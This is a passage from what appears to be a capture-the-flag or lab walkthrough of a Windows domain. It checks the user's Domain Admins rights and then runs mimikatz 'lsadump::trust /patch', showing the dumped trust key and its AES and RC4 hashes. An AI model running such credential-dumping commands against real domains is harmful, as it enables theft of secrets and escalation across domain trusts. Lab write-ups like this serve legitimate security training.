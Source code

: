     C:\Windows\system32>whoami 
    whoami 
    lab\cpowers

    C:\Windows\system32>

who we are?

    C:\Windows\system32>net users cpowers
    net users cpowers
    User name                    cpowers
    Full Name                    Christine Powers
    Comment                      
    User's comment               
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            9/14/2022 6:57:50 PM
    Password expires             Never
    Password changeable          9/15/2022 6:57:50 PM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   1/16/2025 2:04:01 AM

    Logon hours allowed          All

    Local Group Memberships      
    Global Group memberships     *Domain Users         *Domain Admins        
    The command completed successfully.

we are already administrator so lets use mimikatz directly

    mimikatz # lsadump::trust /patch

    Current domain: LAB.TRUSTED.VL (LAB / S-1-5-21-2241985869-2159962460-1278545866)

    Domain: TRUSTED.VL (TRUSTED / S-1-5-21-3576695518-347000760-3731839591)
    [  In ] LAB.TRUSTED.VL -> TRUSTED.VL
        * 1/16/2025 1:14:13 AM - CLEAR   - be 38 f1 cc c5 cc 85 dc 49 d4 19 cf 51 95 49 82 67 08 f7 b3 ff 6f 01 67 3a a8 89 5f ec 9a f1 9f e1 88 dc 44 fc a7 1a e1 3d de 46 93 2e e1 5c 27 8b ed d4 00 90 62 7b 0f bf 00 d0 06 ee 56 7d 51 4c 75 de 25 33 d2 1e 6b 67 f5 96 c4 ef 03 37 38 64 89 e9 13 e6 09 26 05 21 c6 f3 09 09 26 cb 79 10 e8 7b e8 48 e7 c1 dc 2e b7 83 11 37 3e 92 ee a6 fc c9 b9 36 95 93 06 1d e4 4a 8f 1d 8d c8 4f e0 8b be 53 67 92 0d f0 72 15 57 15 3e 2f 9e 1e 75 8a dd 68 30 a5 b0 6e e3 df ae a6 5c 4b a3 7d f9 2c f8 4b 5a 44 64 02 0e d7 ea 35 2a ff 4c af 51 45 b6 38 da 56 4a f0 70 30 a3 e2 8b 28 9e 9a e4 ff e1 62 ec f2 b0 b2 a2 d3 45 64 c4 92 20 bb 10 ea bd e1 18 56 c0 59 fd 38 ac 9c 28 29 6a e4 78 45 ce 2d 8c e0 82 51 d6 62 49 93 94 6a 7a d2 
            * aes256_hmac       b4fbe4f2024cc288d62a205cac62b668da9a831e587d85e53b8ec96d001206f8
            * aes128_hmac       c311894589031688cb53478e3a91f274
            * rc4_hmac_nt       ea134d5259a89d616c37660a8176b1e8
